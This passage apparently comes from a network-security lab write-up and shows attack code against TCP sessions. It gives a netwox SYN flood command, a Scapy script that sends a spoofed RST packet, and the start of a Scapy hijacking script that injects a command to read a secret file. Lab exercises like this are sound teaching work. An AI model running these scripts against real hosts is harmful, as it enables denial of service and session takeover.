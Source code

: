 
### 6.2 SYN Flood Attack Command (Netwox)
 
```bash
sudo netwox 76 -i <server_ip> -p 23 -s random
```
 
---
 
### 6.3 tcp_reset.py (RST Attack with Scapy)
 
```python
#!/usr/bin/python3
from scapy.all import *
 
server_ip = "10.0.2.6"
client_ip = "10.0.2.5"
server_port = 23
client_port = 51700
sequence_number = 123456789  # Observed from sniffed server->client ack
 
ip_layer = IP(src=server_ip, dst=client_ip)
tcp_layer = TCP(
    sport=server_port,
    dport=client_port,
    flags="R",
    seq=sequence_number
)
 
packet = ip_layer / tcp_layer
send(packet, verbose=0)
print("Spoofed RST packet sent.")
```
 
**Run**:  
```bash
chmod +x tcp_reset.py
sudo ./tcp_reset.py
```
 
---
 
### 6.4 tcp_hijack.py (Session Hijacking with Scapy)
 
```python
#!/usr/bin/python3
from scapy.all import *
 
client_ip = "10.0.2.5"
server_ip = "10.0.2.6"
client_port = 51700
server_port = 23
my_seq = 222222222  # from server->client ack
my_ack = 333333333  # from client->server seq + payload length
 
ip_layer = IP(src=client_ip, dst=server_ip)
tcp_layer = TCP(
    sport=client_port,
    dport=server_port,
    flags="PA",
    seq=my_seq,
    ack=my_ack
)
 
cmd = "cat /home/seed/secret.txt\n"
packet = ip_layer / tcp_layer / cmd
```